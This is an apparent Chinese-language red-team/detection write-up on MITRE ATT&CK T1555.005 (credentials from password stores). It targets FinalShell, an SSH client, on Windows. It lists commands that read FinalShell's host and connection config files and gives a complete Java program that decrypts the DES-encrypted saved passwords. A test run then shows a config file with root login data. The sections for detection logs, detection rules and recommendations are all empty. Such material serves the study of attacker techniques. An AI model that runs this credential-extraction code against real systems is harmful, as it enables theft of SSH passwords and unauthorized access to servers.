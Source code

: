 # T1555-005-win-命令行获取Finalshell软件保存的公钥

## 来自ATT&CK的描述

攻击者可能从第三方密码管理器中获取用户凭证。密码管理器是存储用户凭证的应用程序，通常是在一个加密的数据库中。在用户提供主密码解锁数据库后，通常可以获得凭证。数据库被解锁后，这些凭证可以被复制到内存中。这些数据库可以以文件形式存储在磁盘上。

攻击者可以通过从内存中提取主密码或纯文本凭证，从密码管理器中获取用户凭证。攻击者可以通过密码猜解获得主密码从内存提取凭证。

## 测试案例

命令行获取finalshell软件保存的公钥。

FinalShell是一体化的的服务器，网络管理软件。不仅是ssh客户端，还是功能强大的开发，运维工具，充分满足开发，运维需求。

特色功能:

免费海外服务器远程桌面加速，ssh加速，本地化命令输入框，支持自动补全，命令历史，自定义命令参数。

命令行获取finalshell软件保存的公钥:

```yml
type c:\users\<username>\AppData\Local\finalshell\knownhosts.json
type d:\finalshell(安装路径)\knownhosts.json
```

该文件中关键字host的键值为远程服务器的SSH连接的IP和端口，关键字key的键值为该远程服务器的SSH连接的公钥。

密码存在下方文件中：

```yml
c:\Users\Administrator\AppData\Local\finalshell\conn\*********_connect_config.json
D:\software\finalshell\deleted\*********\***********_connect_config.json
```

json文件是des加密，可解密获得，打开<https://c.runoob.com/compile/10/>在线编辑器，使用下面java代码即可解密

```java
import java.io.ByteArrayOutputStream;
import java.io.DataOutputStream;
import java.io.IOException;
import java.math.BigInteger;
import java.security.MessageDigest;
import java.security.NoSuchAlgorithmException;
import java.security.SecureRandom;
import java.util.Base64;
import java.util.Random;

import javax.crypto.Cipher;
import javax.crypto.SecretKey;
import javax.crypto.SecretKeyFactory;
import javax.crypto.spec.DESKeySpec;

public class FinalShellDecodePass {
    public static void main(String[] args)throws Exception {
        System.out.println(decodePass("TVE5YhZeGxyOCxxxxxxCUAnkVWgAeJ3L"));
    }
    public static byte[] desDecode(byte[] data, byte[] head) throws Exception {
        SecureRandom sr = new SecureRandom();
        DESKeySpec dks = new DESKeySpec(head);
        SecretKeyFactory keyFactory = SecretKeyFactory.getInstance("DES");
        SecretKey securekey = keyFactory.generateSecret(dks);
        Cipher cipher = Cipher.getInstance("DES");
        cipher.init(2, securekey, sr);
        return cipher.doFinal(data);
    }
    public static String decodePass(String data) throws Exception {
        if (data == null) {
            return null;
        } else {
            String rs = "";
            byte[] buf = Base64.getDecoder().decode(data);
            byte[] head = new byte[8];
            System.arraycopy(buf, 0, head, 0, head.length);
            byte[] d = new byte[buf.length - head.length];
            System.arraycopy(buf, head.length, d, 0, d.length);
            byte[] bt = desDecode(d, ranDomKey(head));
            rs = new String(bt);

            return rs;
        }
    }
    static byte[] ranDomKey(byte[] head) {
        long ks = 3680984568597093857L / (long)(new Random((long)head[5])).nextInt(127);
        Random random = new Random(ks);
        int t = head[0];

        for(int i = 0; i < t; ++i) {
            random.nextLong();
        }

        long n = random.nextLong();
        Random r2 = new Random(n);
        long[] ld = new long[]{(long)head[4], r2.nextLong(), (long)head[7], (long)head[3], r2.nextLong(), (long)head[1], random.nextLong(), (long)head[2]};
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        DataOutputStream dos = new DataOutputStream(bos);
        long[] var15 = ld;
        int var14 = ld.length;

        for(int var13 = 0; var13 < var14; ++var13) {
            long l = var15[var13];

            try {
                dos.writeLong(l);
            } catch (IOException var18) {
                var18.printStackTrace();
            }
        }

        try {
            dos.close();
        } catch (IOException var17) {
            var17.printStackTrace();
        }

        byte[] keyData = bos.toByteArray();
        keyData = md5(keyData);
        return keyData;
    }
    public static byte[] md5(byte[] data) {
        String ret = null;
        byte[] res=null;

        try {
            MessageDigest m;
            m = MessageDigest.getInstance("MD5");
            m.update(data, 0, data.length);
            res=m.digest();
            ret = new BigInteger(1, res).toString(16);
        } catch (NoSuchAlgorithmException e) {
            e.printStackTrace();
        }
        return res;
    }
}
```

## 检测日志

暂无，未发现Windows安全日志、Sysmon日志记录相关信息。

模拟测试环境：Windows server 2012

## 测试复现

```yml
C:\Users\Administrator>type c:\users\administrator\AppData\Local\finalshell\know
nhosts.json
{"host_list":[{"marker":"","host":"124.223.-.-","type":"ssh-rsa","key":"——————"}]}

C:\Users\Administrator>type c:\Users\Administrator\AppData\Local\finalshell\conn
\wgdw661g0vpyfqxa_connect_config.json
{"forwarding_auto_reconnect":false,"custom_size":false,"delete_time":0,"secret_k
ey_id":"","user_name":"root","remote_port_forwarding":{},"conection_type":100,
"sort_time":0,"description":"","proxy_id":"0","authentication_type":1,"drivestor
edirect":true,"delete_key_sequence":0,"password":"aaaassss————","modified_time":1664024518386,"host":"124.223.-.-","accelerate":false,"id
":"wgdw661g0vpyfqxa","height":0,"order":0,"create_time":1664024518386,"port_forw
arding_list":[],"parent_update_time":0,"rename_time":0,"backspace_key_sequence":
2,"fullscreen":false,"port":22,"terminal_encoding":"UTF-8","parent_id":"root","e
xec_channel_enable":true,"width":0,"name":"test","access_time":1664024522100}
```

## 测试留痕

未监测到有效日志

## 检测规则/思路

无

## 建议

无

## 参考推荐

MITRE-ATT&CK-T1555-005

<https://attack.mitre.org/techniques/T1555/005/>

Finalshell导出密码解密解密

<https://www.jianshu.com/p/f5bfa7b229de>
